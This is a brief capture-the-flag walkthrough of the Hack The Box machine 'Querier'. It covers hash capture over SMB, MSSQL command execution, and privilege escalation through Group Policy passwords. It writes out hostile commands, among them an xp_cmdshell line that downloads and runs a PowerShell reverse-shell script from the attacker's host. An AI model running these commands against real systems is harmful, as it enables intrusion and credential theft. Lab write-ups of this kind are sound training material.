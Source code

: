 ```yaml
---
layout: post
title: Querier - HTB
subtitle: Medium box

tags: [THM, Medium, Machine]
---
```


nmap revealed smb

smb got an xml file containing macro with creds for mssql server running on port 1433

using [mssqlclient.py](http://mssqlclient.py)(from impacket) logged into mssql server. turned responder on and run the following command in the mssql server pointing to my box with responder:

```bash
exec xp_dirtree '\\10.10.10.10\share\file'
```

crack the hash with john and then go back into the mssql server with the new credentials

now able to run commands ( have to enable first with the following command):

```bash
enable_xp_cmdshell
```

now we need to prepare a rev shell fire it up and get a real shell on the box. using nishang powershellreverce tcp

with this payload at the bottom (that’s how it works ? )

```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.10.10 -Port 4444
```

now that we sorted the powershell we fire up a python server, netcat listener and we get it over to the box using the mssql shell and the following command;

```bash
xp_cmdshell powershell iex(new-object net.webclient).downloadstring(\"http://10.10.10.10/Invoke-PowerShellTcp.ps1\")
```

and now we got real shell on the box. now we can load up powersploit powerup script. make sure you add at the end of it Invoke-AllChecks same as we done with the payload in the revshell then just bring it over to the box in the same way using the same payload without the \:

```bash
iex(new-object net.webclient).downloadstring("http://10.10.10.10/Invoke-PowerShellTcp.ps1")
```

that will reveal the cpassword storred in Groups.xml it may even decrypt it for us if not then we can just take the cpassword from within the file and use gpp-decrypt “cpassword” and will decrypt it for us
